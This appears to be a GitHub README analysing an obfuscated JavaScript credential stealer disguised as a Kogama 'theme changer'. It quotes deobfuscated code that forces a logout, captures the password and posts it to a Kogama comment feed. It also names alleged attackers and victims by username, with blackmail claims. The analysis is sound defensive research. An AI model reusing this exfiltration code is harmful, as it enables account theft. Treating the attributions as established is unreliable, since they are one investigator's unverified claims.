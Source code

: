 # Malware Sample Analysis: Obfuscated JavaScript Payload

## Overview
This repository contains an analysis of a malicious JavaScript sample found on Pastebin, which masquerades as a benign "theme changer" utility. The script is heavily obfuscated and exhibits clear malicious behavior.


⚠️ **Warning**: Do not execute this script outside of a controlled sandbox environment.

 💚 Credits to ***Amine*** for helping me realise that no more current leads exist.

## Sample Information
- **Source**: [Pastebin Link](https://pastebin.com/raw/UqK3rjrA)
- **Claimed Function**: Theme changer utility
- **Actual Behavior**: Malicious payload (analysis ongoing)

## Indicators of Compromise
The script exhibits several red flags:

1. **Suspicious Attribution**
   - Unknown author ("Lavar") with no verifiable identity
   - No legitimate project homepage or documentation

2. **Obfuscation Techniques**
   - Heavy use of encoding and string manipulation
   - Unnecessary complexity for stated purpose
   - Obfuscated network calls

3. **Anomalous Code Patterns**
   ```javascript
   fetch('https://www.kogama.com/api/feed/31872096/comment/[...]') // A request to post a comment
   ({'comment':localStorage[_0x5acfe3(0x206)](...)})  // Accessing localStorage (saved data contents)
   const _0x1a7136=['addEventListener','getElementById','application/json','https://www.kogama.com/auth/logout'] // Getting an element by ID and logging us out
   ```

# Technical Analysis

### Initial Deobfuscation
The script employs heavy obfuscation with several immediate red flags:

```javascript
function _0x22fc() {
  const _0x1a7136 = [
    'addEventListener', 'log', 'stringify', 'location', 'status', 
    '173846mcQEUN', '9NpMVeb', 'Success:', '113830LYAXum', 'keyCode',
    'setItem', 'value', 'root-page-mobile', 'password', '71868QrEQBX',
    'getItem', 'error', '2716758eSaPId', 'catch', 'poop',
    'querySelector', 'Error:', '126544zlfMyY', 'lol', '506569BqwGkp',
    '.MuiButtonBase-root.MuiButton-root.MuiButton-text.MuiButton-textDefault...',
    '99qjFQGn', '2MXeZit', 'then', 'getElementById', 'application/json',
    'https://www.kogama.com/auth/logout', '25vivdkf', 'json',
    "Button not found!", '768536FEIJoG', 'POST', 'click',
    '.MuiButtonBase-root.MuiButton-root.MuiButton-contained...',
    "background-image: linear-gradient(135deg, rgb(0 137 255), rgb(0 112 255))"
  ];
  _0x22fc = function() { return _0x1a7136; };
  return _0x22fc();
}
```

###  Key Malicious Behaviors

1. **Anomalous Code Patterns**
   - Sets a localStorage variable named 'poop' to store passwords
   - Calls logout function (https://www.kogama.com/auth/logout) to force re-authentication

2. **Data Exfiltration**
   - Transmits stolen credentials as a "comment" to a fixed Kogama.com feed ID
   - You can view the current state of comments from this object [here](https://www.kogama.com/api/feed/31872096/comment/)
   - If you want to go a few steps ahead, you can compare your findings to what I've saved @ [May 31, 2025 20:24](https://github.com/vendicatedcore/kgmmlwr/blob/main/Inversion/Script/Data/Comments.json)
```javascript
fetch('https://www.kogama.com/api/feed/31872096/comment/', {
  'method': _0x5acfe3(0x1f3),  // Resolves to 'POST'
  'headers': {
    'Content-Type': _0x5acfe3(0x1ed)  // Resolves to 'application/json'
  },
  'body': JSON[_0x5acfe3(0x1f9)]({  // Resolves to 'stringify'
    'comment': localStorage[_0x5acfe3(0x206)](_0x5acfe3(0x1e2))  // Gets 'password'
  })
```

As of [May 31, 2025 20:24](https://github.com/vendicatedcore/kgmmlwr/blob/main/Inversion/Script/Data/Comments.json) the only accounts that have posted any comments under this specific Object are ~~GameCodeMaster~~ and a dummy account @ [Boris Jacob Anderson](https://www.kogama.com/profile/670351929/). Both of those have already changed passwords which could mean two twings. 
~~Either the person behind this script is GameCodeMaster simply testing their own sample, or that account has been stolen because of their naive traits.
Why such theory? GameCodeMaster is an owner of 'Tester' Badge, which these days - isn't rare, but it just may be an indicator.~~

*~~What of the post/feed that stores the comments? - I'm still trying to locate it, trying to finalise the investigation.
No hits in unpublished projects, deleted maps or anywhere else.
Due to this issue - figuring out who's behind the script is currently impossible.~~

It appears that the usual feed_id URL works like ``feed/profile_id/`` - but since this profile has been deleted a longer while ago, there's absolutely no way to find more as such things provide no posterID. This lead is a dead trope.

![image](https://github.com/user-attachments/assets/50b0b399-baad-4b8b-b0e1-7dbb30eeb70f)

> [**This is what happens when you execute the script**](https://youtu.be/cgtRLFCTV40 )


## Conclusion & Recommendations

### Summary of Findings
1. **Malicious Intent Confirmed**  
   The script is definitively a credential stealer masquerading as a theme utility, with:
   - Password harvesting via forced re-authentication
   - Data exfiltration to a public comment feed
   - Deliberate obfuscation to evade detection

2. **Attack Infrastructure**  
   - Utilizes Kogama's legitimate API as C2 channel
   - Targets: `https://www.kogama.com/api/feed/31872096/comment/`
   - Persistence: Stored credentials in `localStorage` under key `'poop'`

3. **Attribution Challenges**  
   - Only two affected accounts detected ~~GameCodeMaster~~ and [Boris Jacob Anderson](https://www.kogama.com/profile/670351929/))
   - Possible scenarios:
     * Attacker testing their own malware
     * Compromised naive accounts
     * False flag operation

### Mitigation Strategies
| Action | Implementation |
|--------|----------------|
| Credential Rotation | All potentially exposed users should change passwords |
| API Monitoring | Kogama should investigate abnormal comment patterns on feed #31872096 |
| Client Protection | Block execution of scripts from untrusted paste sites |

### Future Research Directions
- **Feed Origin Analysis**: Continue hunting for the parent feed object
- **Pattern Correlation**: Compare with other Kogama-targeting malware
- **Attacker TTPs**: Document tactics for threat intelligence sharing

### Community Call-to-Action
Help expand this analysis by:
1. Reporting additional affected accounts via Issues
2. Contributing YARA rules for detection
3. Sharing related samples in the wild

---

# FINAL INVESTIGATION RESULTS

After thorough analysis, it has been determined that the initial hypothesis regarding GameCodeMaster being the threat actor was incorrect. In reality, GameCodeMaster was among three individuals who were coerced through blackmail into developing malicious scripts under the direction of an entity known as 'Inversion'.

Two additional parties involved in this operation, who engaged in harassment and email spamming targeting the victims, have been identified as 'zinxi' and 'g0d_b3rn13'.

> ![Evidence 1](https://github.com/user-attachments/assets/9f92350e-091d-4038-ae28-6f00e670ddf5)
> ![Evidence 2](https://github.com/user-attachments/assets/4083e999-6c48-4bee-91dc-d2c6eaa8c4bc)

## IDENTIFIED THREAT ACTOR
**Primary Actor**: [__ChiefPuddle/Inversion__](https://www.kogama.com/profile/670201468/)  

**Known Alternate Accounts**:  
- [__Asood Moohammed243__](https://www.kogama.com/profile/670339973/)

## ADDITIONAL FINDINGS
The primary threat actor has been actively distributing password-stealer malware through comments on the profile of '[G0D_B3RN13](https://www.kogama.com/profile/669867874/)'.

> ![Malware Distribution Evidence](https://github.com/user-attachments/assets/d009bf9d-c8cf-4da1-8c85-5e248c954596)


**Due to privacy reasons, I'm unable to provide more screenshots.**
